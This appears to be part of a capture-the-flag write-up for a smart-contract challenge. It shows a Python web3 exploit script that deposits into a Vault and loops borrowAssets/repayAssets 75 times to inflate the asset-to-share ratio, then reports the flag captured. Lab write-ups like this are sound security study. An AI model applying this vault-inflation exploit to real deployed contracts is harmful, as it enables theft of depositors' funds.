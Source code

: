 ```python
    
    # Step 2: Approve spending
    print("[2] Approving Vault contract...")
    send_tx(ling_contract.functions.approve(vault_address, w3.to_wei(1000, 'ether')))
    
    # Step 3: Initial deposit
    print("[3] Making initial deposit...")
    send_tx(vault_contract.functions.deposit(100000, account.address))
    
    # Step 4: Attack loop
    print("[4] Starting attack loop to inflate asset value...")
    for i in range(75):
        try:
            borrow_amount = vault_contract.functions.totalAssets().call()
            if borrow_amount == 0:
                break
            send_tx(vault_contract.functions.borrowAssets(borrow_amount))
            send_tx(vault_contract.functions.repayAssets(borrow_amount))
            if (i + 1) % 10 == 0:
                print(f"  Completed {i + 1}/75 cycles")
        except Exception as e:
            print(f"  Error in cycle {i+1}: {e}")
            break
    
    # Step 5: Solve challenge
    print("[5] Calling solve() function...")
    send_tx(setup_contract.functions.solve())
    
    # Check result
    is_solved = setup_contract.functions.isSolved().call()
    if is_solved:
        print("\nSUCCESS! Challenge solved!")
    else:
        print("\nChallenge not solved")

if __name__ == "__main__":
    main()
```

## Results

After executing the exploit:

1. **Asset-to-share ratio** increased from 1:1 to ~2:1
2. **Depositing 999 ether** LING yields only ~499 ether vault shares
3. **The solve() function** executes successfully
4. **The solved flag** is set to `true`

**Flag captured!** 🎉

## Exploitation Summary
